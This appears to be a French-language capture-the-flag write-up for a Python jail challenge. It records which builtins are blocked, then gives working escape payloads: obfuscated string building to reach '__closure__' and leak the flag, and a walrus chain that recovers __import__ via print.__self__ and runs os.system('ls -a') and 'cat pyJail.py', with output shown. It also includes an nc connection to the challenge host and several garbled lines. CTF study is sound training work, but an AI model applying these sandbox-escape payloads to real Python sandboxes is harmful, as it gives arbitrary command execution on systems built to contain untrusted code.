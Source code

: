 # Notes

as
os
or

## Ce qui marche bien d’après tes tests

    Fonctions built-in simples comme abs, bool, int, float, print, sum, sorted

    getattr fonctionne sur objets littéraux prédéfinis (ex: getattr(list(), "append") renvoie la méthode)

    isinstance fonctionne

    Types simples comme int, list, str sont accessibles (mais créer une variable locale semble bloqué)

## Ce qui ne marche pas

    Appeler vars(), locals() ou toute fonction qui accède à la portée actuelle est refusé (NameError ou ValueError)

    Les variables locales définies (ex: lst = []) ne sont pas conservées ou générent des erreurs au moment d’accès

    Pas possible de faire exec() ni eval()

    Pas d’accès direct à __import__

On peut voir que quand on utilise un "".join on peut accéder à des attributs interdits:

>>> getattr(portal, '__closure__')
Error: ValueError
>>> "".join([chr(x) for x in [95, 95, 99, 108, 111, 115, 117, 114, 101, 95, 95]])
'__closure__'
>>> getattr(portal, "".join([chr(x) for x in [95, 95, 99, 108, 111, 115, 117, 114, 101, 95, 95]]))
(<cell at 0x7e6fb4e026b0: Access object at 0x7e6fb4dc1ea0>, <cell at 0x7e6fb4e022f0: tuple object at 0x7e6fb4e06400>)
>>> %                                                                                                                                                                                                                                                                         ➜  ~  getattr(getattr(portal, "".join([chr(x) for x in [95,95,99,108,111,115,117,114,101,95,95]]))[1], "cell_contents")[1]

➜  ~  
nc 96.126.114.185 9969


=== Small Jail Portal===
portal is very user‑friendly, but it has a secret.
But portal is very picky to choose friends.
=========================================

>>> getattr(getattr(portal, "".join([chr(x) for x in [95,95,99,108,111,115,117,114,101,95,95]]))[1], "cell_contents")[1]
'BDSEC{w3lCom3_TO_PyJail}'
>>> "".join([chr(x) for x in [95,95,99,108,111,115,117,114,101,95,95]])
'__closure__'

```python
>>> [b:=getattr(print,"_"*2+"sel"+"f"+"_"*2),i:=getattr(b,"_"*2+"imp"+"ort"+"_"*2),o:=i("o"+"s"),s:=getattr(o,"sy"+"stem"),s("ls -a")]
.
..
.bash_logout
.bashprofile
.bashrc
pyJail.py
ynetd
[<module 'builtins' (built-in)>, <built-in function import>, <module 'os' (frozen)>, <built-in function system>, 0]


>>> [b:=getattr(print,""2+"sel"+"f"+"_"2),i:=getattr(b,""*2+"imp"+"ort"+""*2),o:=i("o"+"s"),s:=getattr(o,"sy"+"stem"),s("cat pyJail.py")]
#!/usr/bin/env python3
import builtins, signal, resource

FLAG = "BDSEC{w3lCom3_TO_PyJail}"
```